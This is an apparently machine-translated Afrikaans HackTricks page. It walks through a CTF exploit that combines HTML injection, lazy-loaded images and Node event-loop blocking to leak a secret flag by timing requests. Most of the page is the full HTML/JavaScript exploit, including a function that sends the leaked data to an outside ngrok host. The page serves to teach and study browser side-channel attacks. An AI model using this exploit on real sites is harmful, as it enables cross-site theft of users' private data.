 # Gebeurtenislus Blokkering + Luie beelde

{{#include ../../banners/hacktricks-training.md}}

In [**hierdie ontploffing**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), [**@aszx87410**](https://twitter.com/aszx87410) meng die **luie beeld sy-kanaal** tegniek deur 'n HTML-inspuiting met 'n soort **gebeurtenislus blokkeringstegniek** om karakters te lek.

Dit is 'n **verskillende ontploffing vir die CTF-uitdaging** wat reeds op die volgende bladsy kommentaar gelewer is. kyk na meer inligting oor die uitdaging:

{{#ref}}
connection-pool-example.md
{{#endref}}

Die idee agter hierdie ontploffing is:

- Die plasings word alfabeties gelaai
- 'n **aanvaller** kan 'n **plasing** inspuit wat begin met **"A"**, dan sal 'n **HTML-tag** (soos 'n groot **`<canvas`**) die meeste van die **skerm** vul en 'n paar finale **`<img lazy` tags** om dinge te laai.
- As die **aanvaller** in plaas van 'n "A" dieselfde plasing inspuit maar begin met 'n "z". Die **plasing** met die **vlag** sal **eerste** verskyn, dan sal die **ingespuite** **plasing** verskyn met die aanvanklike "z" en die **groot** **canvas**. Omdat die plasing met die vlag eerste verskyn het, sal die eerste canvas die hele skerm beset en die finale **`<img lazy`** tags wat ingespuit is, **sal nie gesien** word op die skerm nie, so hulle **sal nie gelaai** word.
- Dan, **terwyl** die bot die bladsy **toegang** het, sal die **aanvaller** **fetch versoeke** stuur.&#x20;
- As die **beelde** wat in die plasing ingespuit is, **gelaai** word, sal hierdie **fetch** versoeke **langer** neem, so die aanvaller weet dat die **plasing voor die vlag** is (alfabeties).
- As die **fetch** versoeke **vinning** is, beteken dit dat die **plasing** **alfabeties** **na** die vlag is.

Kom ons kyk na die kode:
```html
<!DOCTYPE html>
<html>
<!--
The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
If images are loading, the request to "/" is slower, otherwise faster.
By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
We can use fetch to measure the request time.
-->
<body>
<button onclick="run()">start</button>

<!-- Inject post with payload -->
<form
id="f"
action="http://localhost:1234/create"
method="POST"
target="_blank">
<input id="inp" name="text" value="" />
</form>

<!-- Remove index -->
<form
id="f2"
action="http://localhost:1234/remove"
method="POST"
target="_blank">
<input id="inp2" name="index" value="" />
</form>

<script>
let flag = "SEKAI{"
const TARGET = "https://safelist.ctf.sekai.team"
f.action = TARGET + "/create"
f2.action = TARGET + "/remove"

const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
// Function to leak info to attacker
const send = (data) => fetch("http://server.ngrok.io?d=" + data)
const charset = "abcdefghijklmnopqrstuvwxyz".split("")

// start exploit
let count = 0
setTimeout(async () => {
let L = 0
let R = charset.length - 1

// I have omited code here as apparently it wasn't necesary

// fallback to linerar since I am not familiar with binary search lol
for (let i = R; i >= L; i--) {
let c = charset[i]
send("try_" + flag + c)
const found = await testChar(flag + c)
if (found) {
send("found: " + flag + c)
flag += c
break
}
}
}, 0)

async function testChar(str) {
return new Promise((resolve) => {
/*
For 3350, you need to test it on your local to get this number.
The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
If starts with "A", the image should be loaded because it's in the threshold.
*/
// <canvas height="3350px"> is experimental and allow to show the injected
// images when the post injected is the first one but to hide them when
// the injected post is after the post with the flag
inp.value =
str +
'<br><canvas height="3350px"></canvas><br>' +
Array.from({ length: 20 })
.map((_, i) => `<img loading=lazy src=/?${i}>`)
.join("")
f.submit()

setTimeout(() => {
run(str, resolve)
}, 500)
})
}

async function run(str, resolve) {
// Open posts page 5 times
for (let i = 1; i <= 5; i++) {
window.open(TARGET)
}

let t = 0
const round = 30 //Lets time 30 requests
setTimeout(async () => {
// Send 30 requests and time each
for (let i = 0; i < round; i++) {
let s = performance.now()
await fetch(TARGET + "/?test", {
mode: "no-cors",
}).catch((err) => 1)
let end = performance.now()
t += end - s
console.log(end - s)
}
const avg = t / round
// Send info about how much time it took
send(str + "," + t + "," + "avg:" + avg)

/*
I get this threshold(1000ms) by trying multiple times on remote admin bot
for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
*/
const isFound = t >= 1000
if (isFound) {
inp2.value = "0"
} else {
inp2.value = "1"
}

// remember to delete the post to not break our leak oracle
f2.submit()
setTimeout(() => {
resolve(isFound)
}, 200)
}, 200)
}
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
